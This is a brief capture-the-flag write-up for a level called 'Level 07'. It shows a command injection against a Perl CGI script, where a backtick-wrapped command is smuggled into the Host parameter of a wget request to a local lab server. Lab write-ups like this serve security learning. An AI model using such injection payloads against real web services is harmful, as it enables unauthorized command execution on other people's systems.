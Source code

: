 ### Level 07
```
ps -ef | grep flag07
```
We can see that the server is running under the ```flag07``` user.  

As always we want to execute the `getflag` command so we have to make the Perl script execute it.  
Let's try backticks:  
```wget 'http://localhost:7007/index.cgi?Host=`getflag`'```  
The output is then written into a newly created file.  

